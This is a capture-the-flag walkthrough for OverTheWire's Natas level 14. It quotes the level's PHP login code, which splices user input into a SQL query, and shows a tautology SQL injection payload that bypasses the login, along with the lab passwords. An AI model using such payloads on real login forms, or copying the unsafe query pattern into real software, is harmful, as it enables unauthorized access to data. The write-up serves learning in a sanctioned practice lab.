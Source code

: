 # Natas Level 14 → Level 15
(Updated: 13 August 2025)

## Credentials
- **Username:** `natas14`
- **Password:** `z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`

## Connection
Level url: [http://natas14.natas.labs.overthewire.org/](http://natas14.natas.labs.overthewire.org/)

## Steps to Solve
1. Step 1 - This level require us to do some SQL Injection. First look at the source code -> `View sourcecode`.
2. Step 2 - We can see the PHP code:
```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```
Focus on this line:
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
**We can base on this line, to do SQL Injection attack**

3. Step 3 - Add the `username: anything` and `password: anything" or "1" = "1` the `$query` will become:
```sql
SELECT * FROM users where username="anything" and password="anything" or "1" = "1"
```
**By this, the WHERE condition is always true and return all rows in the table `users`.**

4. Step 4 - Submit the username and password so you can get the password for the next level.
5. Step 5 - Take the password to the next level.

## Next Level Password
`SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`
